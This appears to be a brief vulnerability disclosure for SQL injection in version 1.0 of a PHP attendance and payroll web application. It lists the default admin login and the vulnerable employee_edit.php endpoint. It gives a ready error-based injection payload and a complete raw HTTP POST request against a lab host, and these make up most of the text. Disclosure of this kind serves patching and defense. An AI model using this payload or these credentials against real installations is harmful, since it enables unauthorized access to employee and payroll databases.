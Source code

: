 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\employee_edit.php has SQL injection

Payload: id=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&firstname=1&lastname=1&address=1&birthdate=2022-03-29&contact=1&gender=Male&position=1&schedule=5&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159262758-bee3a0b5-22ec-46d1-8d1d-7d62425e4193.png)

```sql
POST /apsystem/admin/employee_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 107
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/employee.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&firstname=1&lastname=1&address=1&birthdate=2022-03-29&contact=1&gender=Male&position=1&schedule=5&edit=
```

![image](https://user-images.githubusercontent.com/54017627/159263137-15b6c240-4702-435a-9680-cccaf9f92488.png)

![image](https://user-images.githubusercontent.com/54017627/159262887-c17a4974-1467-467c-ae83-29a918376b49.png)
